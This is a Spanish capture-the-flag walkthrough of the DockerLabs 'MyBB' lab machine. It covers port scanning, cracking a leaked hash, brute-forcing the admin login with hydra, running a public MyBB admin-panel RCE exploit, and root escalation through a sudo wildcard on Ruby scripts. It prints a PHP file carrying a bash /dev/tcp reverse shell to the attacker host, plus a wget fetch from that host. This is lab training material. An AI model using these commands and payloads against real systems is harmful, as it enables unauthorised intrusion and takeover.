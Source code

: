 #MAQUINA #DOCKERLABS #MEDIO 
#MYBB
<hr>

# RECONOCIMIENTO

Vamos a resolver **MyBB** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 15:26 CET
Initiating ARP Ping Scan at 15:26
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 15:26, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:26
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 15:26, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-20 15:26:55 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.70 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 15:27 CET
Nmap scan report for panel.mybb.dl (172.17.0.2)
Host is up (0.000021s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Forums
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect resu



```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 15:27 CET
Nmap scan report for panel.mybb.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /backups/: Backup folder w/ directory listing
|   /archive/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /images/: Potentially interesting folder
|   /inc/: Potentially interesting folder
|   /install/: Potentially interesting folder
|_  /uploads/: Potentially interesting folder
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds



```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

Al hacer el virtual hosting es cuando salen mas cosas interesantes.

## HTTP (80)

Al revisar los directorios interesantes:

En backups vemos un archivo **data**, en el que leyendo vemos varios usuarios y que **alice** hizo una conexión con la contra :

```bash
$2y$10$OwtjLEqBf9BFDtK8sSzJ5u.gR.tKYfYNmcWqIzQBbkv.pTgKX.pPi
```

**Contra -> tinkerbell**

Probamos y no sirve, vemos que aparentemente no hay nada en los demás sitios.

Vemos que en el listado de usuarios hay un usuario **admin**.

# EXPLOTACION

Vamos a intentar usar **hydra** para hacer fuerza bruta al login:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt "panel.mybb.dl" http-post-form "/admin:username=^USER^&password=^PASS^:H=Cookie: sid=351615a34520a719dce7e9a31628ca89:F=The username and password combination you entered is invalid."   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-21 08:51:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://panel.mybb.dl:80/admin:username=^USER^&password=^PASS^:H=Cookie: sid=351615a34520a719dce7e9a31628ca89:F=The username and password combination you entered is invalid.
[80][http-post-form] host: panel.mybb.dl   login: admin   password: password
[80][http-post-form] host: panel.mybb.dl   login: admin   password: princess
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 12345
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 123456789
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 1234567
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 12345678
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 123456
[80][http-post-form] host: panel.mybb.dl   login: admin   password: rockyou
[80][http-post-form] host: panel.mybb.dl   login: admin   password: abc123
[80][http-post-form] host: panel.mybb.dl   login: admin   password: nicole
[80][http-post-form] host: panel.mybb.dl   login: admin   password: lovely
[80][http-post-form] host: panel.mybb.dl   login: admin   password: iloveyou
[80][http-post-form] host: panel.mybb.dl   login: admin   password: jessica
[80][http-post-form] host: panel.mybb.dl   login: admin   password: daniel
[80][http-post-form] host: panel.mybb.dl   login: admin   password: babygirl
[80][http-post-form] host: panel.mybb.dl   login: admin   password: monkey
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-21 08:51:50

```

Probamos una a una y sacamos la password de **admin -> babygirl**.

Al entrar y ver la versión, vemos que es vulnerable -> https://vuldb.com/es/?id.238273.
Buscamos la vuln y vemos que hay un script, nos lo descargamos -> https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE/blob/main/exploit.py

Ejecutamos :

```bash

./exploit.py http://panel.mybb.dl/ admin babygirl

```

YA ESTAMOS DENTRO.

Vamos a mandar un script php. Y al entrar a verlo nos otorgara una reverse shell para luego hacer una full tty:

```

wget "http://172.17.0.1:8000/wp.php"

```

```php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


        exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

YA ESTAMOS COMO WWW-DATA.
# ESCALADA PRIVILEGIOS

Vemos los usuarios y tenemos a alice, probamos la contra.

YA ESTAMOS COMO ALICE.

Vemos si el usuario tiene permisos SUDO:
   ```bash
alice@4d0e3d13548a:/var/www/mybb$ sudo -l
Matching Defaults entries for alice on 4d0e3d13548a:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User alice may run the following commands on 4d0e3d13548a:
    (ALL : ALL) NOPASSWD: /home/alice/scripts/*.rb

```

Vemos **archivos .rb** dentro del directorio de alice con permisos SUDO, creamos uno a nuestro gusto:

   ```bash
root@4d0e3d13548a:/home/alice/scripts# ls -la
total 16
drwxrwxr-- 1 root  alice 4096 Feb 21 09:49 .
drwxr-x--- 1 root  alice 4096 Jun 16  2024 ..
-rwxrwxr-x 1 alice alice   37 Feb 21 09:51 script.rb
root@4d0e3d13548a:/home/alice/scripts# cat script.rb 
#!/usr/bin/env ruby
exec "/bin/bash"
root@4d0e3d13548a:/home/alice/scripts# whoami
root
root@4d0e3d13548a:/home/alice/scripts# 

```

**YA ESTAMOS COMO ROOT.